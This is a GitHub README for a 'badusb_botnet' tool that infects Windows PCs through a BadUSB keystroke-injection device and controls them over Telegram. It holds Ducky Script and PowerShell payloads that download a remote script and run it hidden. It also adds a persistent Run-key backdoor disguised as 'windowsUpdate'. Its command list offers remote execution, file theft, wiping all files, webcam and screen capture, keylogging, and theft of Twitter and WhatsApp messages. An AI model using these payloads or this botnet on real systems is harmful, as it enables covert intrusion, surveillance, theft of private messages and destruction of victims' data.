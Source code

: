 # badusb_botnet
:smiling_imp::busts_in_silhouette: Infect a pc with badusb and establish a connection through telegram.

## Option 1

```
> (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
> powershell.exe -windowstyle hidden -file poc.ps1
```

```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
DELAY 500
ENTER
STRING powershell.exe -windowstyle hidden -file poc.ps1
DELAY 500
ENTER
```

## Option 2 (Backdoor)

```
> reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
> Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
> reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
```
```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
DELAY 500
ENTER
STRING reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
DELAY 500
ENTER
```

### Telegram Options

#### Basic

- /list (List all devices availables)
- /select ```IP``` ```command``` (Execute a command in a PC)
- /stop ```IP``` (Stop remote connection with a PC)
- /cleanAll ```IP``` (Clean all files in a PC)
- /ipPublic ```IP``` (Geolocate IP)
- /download ```IP``` ```file``` (Download a file from a PC)

#### Advanced

- /screenshot ```IP``` (Capture screen of a PC)
- /backdoor ```IP``` (Creates a persistent backdoor in a PC)
- /webcam ```IP```
- /nc ```IP``` (nc -lp 8888)
- /keylogger ```IP``` ```time``` [Not work]

#### Ultra :squirrel: 

- /hackT ```IP``` (Get Twitter dms if the victim is authenticated) [Only web - W10]
- /hackW ```IP``` (Get WhatsApp messages if the victim is authenticated) [Only Web - W10]
- <img src="https://static-cdn.jtvnw.net/emoticons/v1/112290/1.0" width="15px" height="15px" /> /twitch ```IP``` ```STREAM_KEY```

##### TODO

- Change all Invoke-WebRequest to cURL. (Invoke-WebRequest requires set up Internet Explorer)
- Hack WhatsApp on .exe.
- Fix Twitch streaming.
- Fix keylogger.
- Add monitor selector to screenshot.
- Add windows version detector in HackTwitterW10() and hackWhatsAPPW10() functions.
